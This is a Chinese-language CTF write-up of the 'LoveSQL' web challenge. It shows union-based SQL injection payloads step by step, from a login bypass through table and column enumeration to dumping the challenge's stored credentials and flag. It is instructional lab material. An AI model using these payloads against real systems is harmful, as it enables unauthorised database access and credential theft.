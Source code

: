 ```yaml
---
layout: post
title:  LoveSQL
date:   2021-05-21 00:01:01 +0300
image:  2021-05-21-eiffel.jpg
tags:   [ctf,web,极客大挑战2019,sql]
---
```


最简单的注入

```assembly
1' or 1=1#
```

通过order by查询表的字段数

```assembly
/check.php?username=admin' order by 3%23&password=1     存在
/check.php?username=admin' order by 4%23&password=1     报错
```

此时是在url中输入的，所以不能用#，而用其url编码%23。

用`union`查询测试注入点（回显点位）

```assembly
/check.php?username=1' union select 1,2,3%23&password=1
```

得到回显点位为2和3，查询当前数据库名及版本：

```assembly
/check.php?username=1' union select 1,database(),version()%23&password=1
```

得到当前数据库名，接下来爆表

information_schema 数据库跟 performance_schema 一样，都是 MySQL 自带的信息数据库。其中 performance_schema 用于性能分析，而 information_schema 用于存储数据库元数据(关于数据的数据)，例如数据库名、表名、列的数据类型、访问权限等。

```assembly
/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1
```

`Hello 2！`

`Your password is 'geekuser,l0ve1ysq1'`

爆出这两个表，我们试一下l0ve1ysq1这个表，爆字段：

```assembly
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1
```

`Hello 2！`

`Your password is 'id,username,password'`

得到这三个子段，爆数据

```assembly
/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1
```

`Hello 2！`

`Your password is '1cl4ywo_tai_nan_le,2glzjinglzjin_wants_a_girlfriend,3Z4cHAr7zCrbiao_ge_dddd_hm,40xC4m3llinux_chuang_shi_ren,5Ayraina_rua_rain,6Akkoyan_shi_fu_de_mao_bo_he,7fouc5cl4y,8fouc5di_2_kuai_fu_ji,9fouc5di_3_kuai_fu_ji,10fouc5di_4_kuai_fu_ji,11fouc5di_5_kuai_fu_ji,12fouc5di_6_kuai_fu_ji,13fouc5di_7_kuai_fu_ji,14fouc5di_8_kuai_fu_ji,15leixiaoSyc_san_da_hacker,16flagflag{20d45cb9-9242-440f-87c1-033a46487a03}'`
